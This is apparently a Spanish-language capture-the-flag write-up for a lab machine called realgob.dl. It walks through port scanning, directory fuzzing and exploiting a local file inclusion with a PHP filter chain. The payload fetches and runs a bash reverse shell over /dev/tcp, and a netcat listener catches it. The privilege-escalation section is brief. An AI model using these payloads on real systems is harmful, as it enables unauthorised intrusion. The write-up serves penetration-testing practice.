 # Maquina Report

### 1.- Puertos abiertos

sudo nmap -sS --min-rate 6000 -p- --open -vvv -Pn 172.17.0.2

![alt text](image.png)

### 2.- Servicios y versiones

sudo nmap -sVC --min-rate 6000 -p22,80,3306 -vvv -Pn 172.17.0.2

![alt text](image-1.png)

### 3.- Fuzzing Web

agregaomos el realgob.dl al /etc/hosts

gobuster dir -t 200 -u http://realgob.dl/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,bak,sh,py,js,html -r -b 403,404 2>/dev/null

![alt text](image-3.png)

### 4.- Vulnerabilidades

#### - LFI

wfuzz -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u "http://realgob.dl/about.php?FUZZ=../../../../../../../../../../../../../etc/passwd" --hh=4919

![alt text](image-2.png)

Intenté sacar el id_rsa, ver los logs y no se pudo, entonces utilicé la herramienta php_filter_chain_generator

a.- Creamos una reverse shell llamada rev con el siguiente contenido:

nano rev

bash -i >& /dev/tcp/172.17.0.1/443 0>&1 

b.- Iniciamos un servidor web con python en la carpeta donde creamos el rev

python3 -m http.server 80

![alt text](image-4.png)

c.- Nos ponemos en escucha con netcat por el puerto 443

nc -nlvp 443

d. En la carpeta php_filter_chain_generator, ejecutamos

python3 php_filter_chain_generator.py --chain '<?=`wget -O- 172.17.0.1/rev|bash`?>'

![alt text](image-5.png)

e.- Pegamos el wrapper  en la url de esta manera:

ejemplo:

http://realgob.dl/about.php?file=wrapper

![alt text](image-6.png)

f.- Tenemos acceso

#### - Bypass php - JPEG - cambiando el Content - Type

#### - SQLi


### 5.- Escalar privilegios

ejecute el comando: find / -name '*.git' 2>/dev/null

![alt text](image-7.png)

![alt text](image-8.png)

siendo el usuario adm entramos en /home/adm y abrimos el .bashrc

![alt text](image-10.png)

lo crakeamos con cyberchef

![alt text](image-9.png)

